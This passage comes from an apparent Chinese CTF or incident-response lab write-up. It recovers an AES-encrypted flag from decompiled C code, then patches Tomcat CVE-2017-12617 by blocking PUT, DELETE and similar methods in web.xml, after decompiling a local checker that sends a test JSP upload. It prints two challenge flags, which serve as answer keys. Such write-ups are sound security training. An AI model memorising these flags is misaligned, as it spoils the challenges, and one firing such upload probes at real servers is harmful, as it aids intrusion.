                fclose(v4);
                fclose(v5);
                puts(&s);
                while (1)
                ;
            }
        perror(&byte_2051);
        fclose(v4);
        }
        else
        {
            perror(&byte_2035);
        }
    }
    else
    {
        fprintf(stderr, &format, *a2);
    }
    return 1LL;
}
```

整体逻辑并不复杂，其中函数 `AES_cbc_encrypt` 尤为突出

直接动调看一下效果



跟进到 `AES_set_encrypt_key`



根据所得到的参数，直接执行 AES CBC 解密即可

```flag
flag{0ba9af0100c01e88a3a1280ec5b39715}
```

## 10

> 请你找到并修复入口漏洞后运行 `/root` 下的 `check_tomcat` 文件，将得到的 flag 提交

这里采用暴力一点的方案，直接对 `check_tomcat` 程序进行分析

同样的还是 `Python 3.9 Pyinstaller`

```python
#!/usr/bin/env python
# visit https://tool.lu/pyc/ for more information
# Version: Python 3.9

import requests
import random
burp0_url = 'http://127.0.0.1:8081/check.jsp/'
burp0_headers = {
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Accept-Encoding': 'gzip, deflate, br',
    'Connection': 'keep-alive',
    'Upgrade-Insecure-Requests': '1',
    'Priority': 'u=0, i',
    'Content-Type': 'application/x-www-form-urlencoded' }
burp0_data = '<%@ page contentType="text/html;charset=UTF-8"language="java"%>\r\n<html>\r\n<head>\r\n    <title>Hello World JSP</title>\r\n</head>\r\n<body>\r\n    <h1>Hello, World!</h1>\r\n</body>\r\n</html>'
# WARNING: Decompyle incomplete
```

那就很明显了，需要对 `Tomcat CVE-2017–12617` 漏洞进行修补

定位到 Tomcat 的配置文件 `/opt/apache-tomcat-8.5.19/conf/web.xml` 进行修改，在 `web-app` 节点下加入以下配置

```xml
<security-constraint>
    <web-resource-collection>
        <url-pattern>/*</url-pattern>
        <http-method>PUT</http-method>
        <http-method>DELETE</http-method>
        <http-method>HEAD</http-method>
        <http-method>OPTIONS</http-method>
        <http-method>TRACE</http-method>
    </web-resource-collection>
    <auth-constraint></auth-constraint>
</security-constraint>
```

修改完之后，即可进行 check



```flag
flag{ba5579c780bf4a799e03a60c6be383e9}
```
